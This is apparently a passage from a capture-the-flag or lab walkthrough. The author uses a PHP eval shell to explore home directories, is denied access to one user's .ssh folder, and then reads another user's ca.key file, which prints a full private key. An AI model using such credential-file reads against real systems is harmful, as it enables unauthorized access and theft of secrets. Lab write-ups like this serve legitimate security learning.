 
So we can move around a bit.

I tried reading the ssh file:

```
readfile('/home/professor/.ssh')
PHP Warning:  readfile(/home/professor/.ssh): failed to open stream: Permission denied in phar://eval()'d code on line 1
```

But we don't have permission.

Checking out all the folders I eventually find this in Nairobi:

```
scandir('/home/nairobi')
=> [
     ".",
     "..",
     "ca.key",
     "download.jade",
     "error.jade",
     "index.jade",
     "node_modules",
     "server.js",
     "static",
   ]

readfile('/home/nairobi/ca.key')
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb
7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/
2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl
uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M
YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp
s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us
PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V
Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89
1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ
/CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+
q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr
uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd
I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og
7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE
G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn
sqBjrd8pbpXRqj6zqIydj
wSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH
CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y
sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI
ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2
zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/
ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC
9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M
WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM
7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR
aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc
53udBEzjt3WPqYGkkDknVhjD
-----END PRIVATE KEY-----
=> 1704
```
